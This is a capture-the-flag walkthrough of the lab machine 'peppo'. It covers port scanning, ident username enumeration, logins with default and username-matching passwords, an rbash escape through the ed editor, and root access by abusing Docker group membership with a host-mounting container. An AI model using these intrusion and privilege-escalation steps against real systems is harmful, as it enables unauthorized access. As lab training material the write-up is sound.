





As always, I started with a comprehensive TCP port scan followed by a targeted scan on the discovered ports, and lastly a UDP scan on the top 10 ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:19 UTC
Nmap scan report for 192.168.161.60
Host is up (0.045s latency).
Not shown: 65529 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
22/tcp open ssh
113/tcp open ident
5432/tcp open postgresql
8080/tcp open http-proxy
10000/tcp open snet-sensor-mgmt
Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,113,5432,8080,10000
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:21 UTC
Nmap scan report for 192.168.161.60
Host is up (0.047s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:
| 2048 75:4c:02:01:fa:1e:9f:cc:e4:7b:52:fe:ba:36:85:a9 (RSA)
| 256 b7:6f:9c:2b:bf:fb:04:62:f4:18:c9:38:f4:3d:6b:2b (ECDSA)
|_ 256 98:7f:b6:40:ce:bb:b5:57:d5:d1:3c:65:72:74:87:c3 (ED25519)
|_auth-owners: root
113/tcp open ident FreeBSD identd
|_auth-owners: nobody
5432/tcp open postgresql PostgreSQL DB 9.6.0 or later
8080/tcp open http WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
| http-robots.txt: 4 disallowed entries
|_/issues/gantt /issues/calendar /activity /search
10000/tcp open snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
| HTTP/1.1 400 Bad Request
| Connection: close
| FourOhFourRequest:
| HTTP/1.1 200 OK
| Content-Type: text/plain
| Date: Mon, 19 Jan 2026 01:21:34 GMT
| Connection: close
| Hello World
| GetRequest, HTTPOptions:
| HTTP/1.1 200 OK
| Content-Type: text/plain
| Date: Mon, 19 Jan 2026 01:21:27 GMT
| Connection: close
|_ Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port10000-TCP:V=7.95%I=7%D=1/19%Time=696D8717%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,71,"HTTP/1\\.1\\x20200\\x20OK\\r\\nContent-Type:\\x20text/plain\\r\\n
SF:Date:\\x20Mon,\\x2019\\x20Jan\\x202026\\x2001:21:27\\x20GMT\\r\\nConnection:\\x2
SF:0close\\r\\n\\r\\nHello\\x20World\\n")%r(HTTPOptions,71,"HTTP/1\\.1\\x20200\\x20
SF:OK\\r\\nContent-Type:\\x20text/plain\\r\\nDate:\\x20Mon,\\x2019\\x20Jan\\x202026
SF:\\x2001:21:27\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nHello\\x20World\\n")%r
SF:(RTSPRequest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n")%r(RPCCheck,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nCon
SF:nection:\\x20close\\r\\n\\r\\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\\.1\\x20400
SF:\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(DNSStatusRequest
SF:TCP,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\
SF:r\\n")%r(Help,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n")%r(SSLSessionReq,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r
SF:\\nConnection:\\x20close\\r\\n\\r\\n")%r(TerminalServerCookie,2F,"HTTP/1\\.1\\x
SF:20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(TLSSessionR
SF:eq,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r
SF:\\n")%r(Kerberos,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x
SF:20close\\r\\n\\r\\n")%r(SMBProgNeg,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r
SF:\\nConnection:\\x20close\\r\\n\\r\\n")%r(X11Probe,2F,"HTTP/1\\.1\\x20400\\x20Bad
SF:\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,71,"H
SF:TTP/1\\.1\\x20200\\x20OK\\r\\nContent-Type:\\x20text/plain\\r\\nDate:\\x20Mon,\\x
SF:2019\\x20Jan\\x202026\\x2001:21:34\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nH
SF:ello\\x20World\\n")%r(LPDString,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\
SF:nConnection:\\x20close\\r\\n\\r\\n")%r(LDAPSearchReq,2F,"HTTP/1\\.1\\x20400\\x2
SF:0Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(LDAPBindReq,2F,"HTT
SF:P/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n")%r(SIP
SF:Options,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\
SF:r\\n\\r\\n")%r(LANDesk-RC,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnec
SF:tion:\\x20close\\r\\n\\r\\n")%r(TerminalServer,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x
SF:20Request\\r\\nConnection:\\x20close\\r\\n\\r\\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 44.92 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:23 UTC
Nmap scan report for 192.168.161.60
Host is up (0.046s latency).
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
123/udp open|filtered ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp open|filtered microsoft-ds
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
I attempted to interact with the service with telnet but didn’t get much information from it.
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet $IP 113
Trying 192.168.161.60...
helConnected to 192.168.161.60.
Escape character is '^]'.
help
0 , 0 : ERROR : INVALID-PORT
Whenever I encounter services I’m not familiar with, HackTricks is my go-to resource. Upon reading its page about ident, I learned about Ident-user-enum tool which could help me gather existing usernames.

┌──(kali㉿kali)-[~/Desktop]
└─$ sudo apt install ident-user-enum
[sudo] password for kali:
Installing:
ident-user-enum
Installing dependencies:
libnet-ident-perl
Summary:
Upgrading: 0, Installing: 2, Removing: 0, Not Upgrading: 1732
Download size: 26.4 kB
Space needed: 72.7 kB / 49.2 GB available
Continue? [Y/n]
ident-user-enum revealed user eleanor .
┌──(kali㉿kali)-[~/Desktop]
└─$ ident-user-enum $IP 22 113 5432 8080 10000
ident-user-enum v1.0 ( <http://pentestmonkey.net/tools/ident-user-enum> )
192.168.161.60:22 root
192.168.161.60:113 nobody
192.168.161.60:5432 <unknown>
192.168.161.60:8080 <unknown>
192.168.161.60:10000 eleanor
I found that I was able to interact with the PostgresSQL service using the default credentials:postgres:postgres . However, I was not able to find any helpful leads in the database.
┌──(kali㉿kali)-[~/Desktop]
└─$ psql -h $IP -p 5432 -U postgres
Password for user postgres:
psql (17.5 (Debian 17.5-1), server 12.3 (Debian 12.3-1.pgdg100+1))
Type "help" for help.
postgres=#
postgres=# \\list
List of databases
Name | Owner | Encoding | Locale Provider | Collate | Ctype | Locale | ICU Rules | Access privileges
-----------+----------+----------+-----------------+------------+------------+--------+-----------+-----------------------
postgres | postgres | UTF8 | libc | en_US.utf8 | en_US.utf8 | | |
template0 | postgres | UTF8 | libc | en_US.utf8 | en_US.utf8 | | | =c/postgres +
| | | | | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | libc | en_US.utf8 | en_US.utf8 | | | =c/postgres +
| | | | | | | | postgres=CTc/postgres
(3 rows)
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8080
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-19 01:46 UTC
Nmap scan report for 192.168.161.60
Host is up (0.048s latency).
PORT STATE SERVICE VERSION
8080/tcp open http WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
| http-enum:
| /login.stm: Belkin G Wireless Router
| /admin.php: Possible admin folder (401 Unauthorized )
| /login.php: Possible admin folder
| /login.html: Possible admin folder
| /admin.cfm: Possible admin folder (401 Unauthorized )
| /login.cfm: Possible admin folder
| /admin.asp: Possible admin folder (401 Unauthorized )
| /login.asp: Possible admin folder
| /admin.aspx: Possible admin folder (401 Unauthorized )
| /login.aspx: Possible admin folder
| /admin.jsp: Possible admin folder (401 Unauthorized )
| /login.jsp: Possible admin folder
| /users.sql: Possible database backup (401 Unauthorized )
| /login/: Login page
| /login.htm: Login page
| /login.jsp: Login page
| /robots.txt: Robots file
| /admin.nsf: Lotus Domino (401 Unauthorized )
| /news/: Potentially interesting folder
|_ /search/: Potentially interesting folder
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 115.44 seconds
Navigating to /issues/gantt brought up the login page. I entered the default credentials admin:admin , and it prompted me to change my password which indicates I’m logged in as admin.

I found some version information of the services running on the server. However, I failed to find any known vulnerabilities associated with the versions.

Port 10000 appears to be running Webmin, a web-based server management tool. Aside from identifying the service, no further leads for exploitation were found.

┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nv $IP 10000
(UNKNOWN) [192.168.161.60] 10000 (webmin) open
help
HTTP/1.1 400 Bad Request
Connection: close
eleanorI successfully logged into the SSH server using the credentials eleanor:eleanor . It’s very typical in a CTF environment for the user’s password to be identical to the username.
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh eleanor@$IP
The authenticity of host '192.168.161.60 (192.168.161.60)' can't be established.
ED25519 key fingerprint is SHA256:GrHKbhpl4waMainGkiieqFVD5jgXi12zVmCIya8UR7M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.161.60' (ED25519) to the list of known hosts.
eleanor@192.168.161.60's password:
Linux peppo 4.9.0-12-amd64 #1 SMP Debian 4.9.210-1 (2020-01-20) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
eleanor@peppo:~$
The whoami command did not go through. It appeared that I was in a restricted shell, rbash.
eleanor@peppo:~$ whoami
-rbash: whoami: command not found
The PATH environment variable was set to /home/eleanor/bin , indicating that only the executables inside that directory are available.
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin
eleanor@peppo:~$ ls bin
chmod chown ed ls mv ping sleep touch
Among the binaries, ed stood out to me. According to GTFObins , we can spawn an interactive system shell. This probably can help us bypass rbash.

I originally attempted to change the value of PATH environment variable but it was blocked by rbash. However, I was able to escape this restriction by using the ed editor. Since ed can spawn a new, unrestricted shell with the !/bin/bash command, I was able to bypass the rbash limitations and reset my PATH .
eleanor@peppo:~$ ed
!/bin/bash
eleanor@peppo:~$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
eleanor@peppo:~$ echo $PATH
/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
Now I can use all of the default binaries including which . I stabilized the current shell using Python and re-defined the PATH variable again.
eleanor@peppo:~$ which python
/usr/bin/python
eleanor@peppo:~$ python -c 'import pty;pty.spawn("/bin/bash")'
eleanor@peppo:~$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
found local.txt
eleanor@peppo:~$ cat local.txt
104...
id command revealed eleanor is part of docker group.
eleanor@peppo:/home$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
rootIn Linux, anyone in Docker group can interact with the Docker daemon without using sudo . Since the Docker daemon runs with root privileges, a user can abuse this to gain full control over the host system.
The command docker run -v /:/mnt --rm -it redmine chroot /mnt sh performs several critical actions.
-v /:/mnt : This mounts the entire host file system into the container’s /mnt directory. This bypasses all file permission restrictions.chroot /mnt : This changes the root directory of the current process to /mnt . Effectively, the shell is no longer trapped inside the container; it is now operating on the host’s physical disk.eleanor@peppo:/home$ docker images
REPOSITORY TAG IMAGE ID CREATED SIZE
redmine latest 0c8429c66e07 5 years ago 542MB
postgres latest adf2b126dda8 5 years ago 313MB
eleanor@peppo:/home$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# whoami
root
found proof.txt
# cd /root
# ls
proof.txt
# cat proof.txt
f49...